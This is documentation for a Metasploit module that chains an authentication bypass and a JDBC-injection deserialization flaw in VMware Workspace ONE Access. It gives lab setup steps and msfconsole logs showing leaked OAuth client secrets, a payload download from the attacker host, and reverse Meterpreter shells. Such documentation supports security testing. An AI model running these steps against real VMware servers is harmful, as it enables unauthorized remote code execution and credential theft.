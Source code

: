 ## Vulnerable Application

This module combines two vulnerabilities in order achieve remote code execution in the context of the `horizon` user.
The first vulnerability CVE-2022-22956 is an authentication bypass in OAuth2TokenResourceController ACS which allows
a remote, unauthenticated attacker to bypass the authentication mechanism and execute any operation. The second
vulnerability CVE-2022-22957 is a JDBC injection RCE specifically in the DBConnectionCheckController class's dbCheck 
method which allows an attacker to deserialize arbitrary Java objects which can allow remote code execution.

CVE-2022-22956 & CVE-2022-22957:

| Vulnerable Application  | Vulnerable version  |
|---|---|
| VMware Workspace ONE Access (Access)   |  21.08.0.1, 21.08.0.0, 20.10.0.1, 20.10.0.0  |
| VMware Identity Manager (vIDM)  |  3.3.6, 3.3.5, 3.3.4, 3.3.3  |
| VMware vRealize Automation (vRA)  |  8.x, 7.6  |
| VMware Cloud Foundation | 4.x | 
| vRealize Suite Lifecycle Manager | 8.x |

### Setup

In order to download a vulnerable application you do need VMware Customer Connect credentials. Navigate to
[Download VMware Workspace ONE Access (VIDM)](https://customerconnect.vmware.com/downloads/info/slug/desktop_end_user_computing/vmware_workspace_one_access_vidm/20_10).
to download the OVA file.
During VM Configuration within VMware Fusion, in Addition Settings input the following:

#### Application:

Timezone: (timezone of your choice)

Join the VMware Custom Experience Improvement Program: (deselect)

#### Networking Properties: (note the following may depend on your network configuration)

Host Name (FQDN): access01.corp.local

Default Gateway: 192.168.123.1

Domain Name: (blank)

Domain Search Path: (blank)

DNS: 192.168.123.1

IP Address: 192.168.123.16
Network: 255.255.255.0

Add the following line to your `/etc/hosts` file:
`192.168.123.16 access.test.local`

Be sure to change the network adapter of the VM to the network adapter that corresponds to the subnet of the static IP address you assigned above.

#### GUI Setup

Once running navigate to https://access.test.local:8443/cfg/setup
in order to complete the following setup requirements:

Set Passwords
- Appliance Administrator Account
- Appliance Root Account
- Remote User Account

Select Database
- Database Type: Internal Database

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain`
1. Set the `RHOST`, `LHOST` and `TARGET` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### VMware Identity Manager 21.08.0.1-19010796
```
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set rhosts 192.168.123.16
rhosts => 192.168.123.16
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked client_id: acs
[+] Leaked client_secret: Oh2CB8n8PSrBER3NwXs41AaY3D49G7mt
[+] The target is vulnerable. Successfully by-passed authentication by exploiting CVE-2022-22956
[*] Using URL: http://192.168.123.1:8080/ONgtre.xml
[*] Sending stage (24772 bytes) to 192.168.123.16
[+] Now background this session with "bg" and then run "resource run_cve-2022-22960_lpe.rc" to get a root shell
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.16:53750) at 2023-04-07 10:28:46 -0400
[*] Server stopped.

meterpreter > getuid
Server username: horizon
meterpreter > sysinfo
Computer        : access01.corp.local
OS              : Linux 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.123.16 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set target 1
target => 1
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked client_id: Service__OAuth2Client
[+] Leaked client_secret: 869zxHSe5G7m7KAUSFm4iw3ByZOTdLRc
[+] The target is vulnerable. Successfully by-passed authentication by exploiting CVE-2022-22956
[*] Using URL: http://192.168.123.1:8080/mQUV.xml
[*] Using URL: http://192.168.123.1:8080/JlLraNNZdU
[*] Sending stage (3045348 bytes) to 192.168.123.16
[+] Now background this session with "bg" and then run "resource run_cve-2022-22960_lpe.rc" to get a root shell
[*] Meterpreter session 2 opened (192.168.123.1:4444 -> 192.168.123.16:53818) at 2023-04-07 10:29:26 -0400
[*] Command Stager progress - 100.00% done (116/116 bytes)

meterpreter > getuid
Server username: horizon
meterpreter > sysinfo
Computer     : access01.corp.local
OS           : VMware Photon OS 3.0 (Linux 4.19.217-1.ph3)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
